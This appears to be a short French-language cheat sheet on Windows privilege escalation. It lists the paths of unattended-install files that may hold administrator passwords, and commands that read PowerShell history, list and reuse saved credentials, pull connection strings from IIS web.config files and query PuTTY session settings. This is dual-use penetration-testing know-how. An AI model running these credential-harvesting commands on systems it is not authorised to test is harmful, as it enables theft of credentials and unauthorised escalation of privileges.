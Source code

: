 # Windows

Quelques sources possibles d'escalation de privilèges sous windows

### Unattended Windows Installations

Avec MDT:
```
    C:\Unattend.xml
    C:\Windows\Panther\Unattend.xml
    C:\Windows\Panther\Unattend\Unattend.xml
    C:\Windows\system32\sysprep.inf
    C:\Windows\system32\sysprep\sysprep.xml
```

Peut contenir :

```
<Credentials>
    <Username>Administrator</Username>
    <Domain>domain.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```

### Powershell History

cmd.exe
```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

powershell.exe
```
cat $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Saved Windows Credentials

```
cmdkey /list
```

En cas de trouvaille interressante 
```
runas /savecred /user:admin cmd.exe
```

### IIS Configuration

web.config
```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

### PuTTY

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
